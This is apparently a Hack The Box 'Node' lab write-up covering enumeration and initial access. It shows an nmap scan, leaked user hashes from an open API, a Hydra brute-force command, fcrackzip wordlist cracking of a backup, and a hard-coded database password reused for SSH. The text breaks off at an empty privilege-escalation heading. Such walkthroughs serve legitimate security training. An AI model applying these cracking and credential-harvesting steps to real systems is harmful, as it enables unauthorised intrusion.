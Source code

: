 # Hackthebox Node

## Enumeration

First do the standard portscanning of every tcp port on the system.

```
$ nmap -Pn -A -T4 -p- 10.129.173.248                                                                                          1 ⨯
Host discovery disabled (-Pn). All addresses will be marked 'up' and scan times will be slower.
Starting Nmap 7.91 ( https://nmap.org ) at 2022-01-08 11:03 EST
Nmap scan report for 10.129.173.248
Host is up (0.037s latency).
Not shown: 65533 filtered ports
PORT     STATE SERVICE            VERSION
22/tcp   open  ssh                OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 dc:5e:34:a6:25:db:43:ec:eb:40:f4:96:7b:8e:d1:da (RSA)
|   256 6c:8e:5e:5f:4f:d5:41:7d:18:95:d1:dc:2e:3f:e5:9c (ECDSA)
|_  256 d8:78:b8:5d:85:ff:ad:7b:e6:e2:b5:da:1e:52:62:36 (ED25519)
3000/tcp open  hadoop-tasktracker Apache Hadoop
| hadoop-datanode-info: 
|_  Logs: /login
| hadoop-tasktracker-info: 
|_  Logs: /login
|_http-title: MyPlace
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Browsing through the api it seems the user infomation is left open 

```
http://10.129.173.248:3000/api/users/

	
0	
_id	"59a7365b98aa325cc03ee51c"
username	"myP14ceAdm1nAcc0uNT"
password	"dffc504aa55359b9265cbebe1e4032fe600b64475ae3fd29c07d23223334d0af"
is_admin	true
1	
_id	"59a7368398aa325cc03ee51d"
username	"tom"
password	"f0e2e750791171b0391b682ec35835bd6a5c3f7c8d1d0191451ec77b4d75f240"
is_admin	false
2	
_id	"59a7368e98aa325cc03ee51e"
username	"mark"
password	"de5a1adf4fedcce1533915edc60177547f1057b61b7119fd130e1f7428705f73"
is_admin	false
3	
_id	"59aa9781cced6f1d1490fce9"
username	"rastating"
password	"5065db2df0d4ee53562c650c29bacf55b97e231e3fe88570abc9edd8b78ac2f0"
is_admin	false
```

Throwing the admin hash to a rainbow table (https://crackstation.net/) shows it is a sha256 and the password is manchester.

Could also do

```
cat myfiles.backup | base64 -d > backup
```

I tried to bruteforce the password with Hydra to get to know the syntax, but this just hangs after the last password it processes

```
$ hydra -v -V -l "myP14ceAdm1nAcc0uNT" -P "pwdfile" -s 3000 10.129.173.248 http-form-post "/api/session/authenticate:{\"username\"\:\"^USER^\",\"password\"\:\"^PASS^\"}:F=failed:C=Cookie"
Hydra v9.1 (c) 2020 by van Hauser/THC & David Maciejak - Please do not use in military or secret service organizations, or for illegal purposes (this is non-binding, these *** ignore laws and ethics anyway).

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2022-01-08 12:59:39
[INFO] Using HTTP Proxy: http://127.0.0.1:8080
[INFORMATION] escape sequence \: detected in module option, no parameter verification is performed.
[DATA] max 3 tasks per 1 server, overall 3 tasks, 3 login tries (l:1/p:3), ~1 try per task
[DATA] attacking http-post-form://10.129.173.248:3000/api/session/authenticate:{"username"\:"^USER^","password"\:"^PASS^"}:F=failed:C=Cookie
[VERBOSE] Resolving addresses ... [VERBOSE] resolving done
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "Manchester" - 1 of 3 [child 0] (0/0)
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "manchester" - 2 of 3 [child 1] (0/0)
[ATTEMPT] target 10.129.173.248 - login "myP14ceAdm1nAcc0uNT" - pass "testtest" - 3 of 3 [child 2] (0/0)
```

The format of authentication message

```
POST /api/session/authenticate HTTP/1.1
Host: 10.129.173.248:3000
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: application/json, text/plain, */*
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/json;charset=utf-8
Content-Length: 35
Origin: http://10.129.173.248:3000
Connection: close
Referer: http://10.129.173.248:3000/login
Cookie: connect.sid=s%3AIispHcNPslsW_3GdDXsxjJwQVMU3L16H.goQuR4VvCnRnZCnTbTl%2BG5%2BaGILn%2Fw6zksDofWnfXbI

{"username":"asd","password":"asd"}
```

The backup file is base64 encoded and running it through https://www.64baser.com/decode/upload/ reveals it is a zip file. Unfortunately the zip is password protected. This is quickly bruteforced with fcrackzip though.

```
$ fcrackzip -D -u -p /usr/share/wordlists/rockyou.txt myplace 

PASSWORD FOUND!!!!: pw == magicword
```

I looking through the files we can find mark's password from one of the constants

```
$ grep mark *                                                                                                 
app.js:const url         = 'mongodb://mark:5AYRft73VtFpc84k@localhost:27017/myplace?authMechanism=DEFAULT&authSource=myplace';
```

## Initial Access

Using mark's password we found we can login using ssh

```
$ ssh mark@10.129.173.248 
mark@10.129.173.248's password: 

The programs included with the Ubuntu system are free software;
the exact distribution terms for each program are described in the
individual files in /usr/share/doc/*/copyright.

		...

Last login: Wed Sep 27 02:33:14 2017 from 10.10.14.3
mark@node:~$ whoami
mark
mark@node:~$ uname -a
Linux node 4.4.0-93-generic #116-Ubuntu SMP Fri Aug 11 21:17:51 UTC 2017 x86_64 x86_64 x86_64 GNU/Linux
mark@node:~$ 
```

The user flag is in tom's home directory but we don't have permissions to read it

```
mark@node:~$ ls -al /home/tom/user.txt 
-rw-r----- 1 root tom 33 Sep  3  2017 /home/tom/user.txt
```



## Privilege Escalation




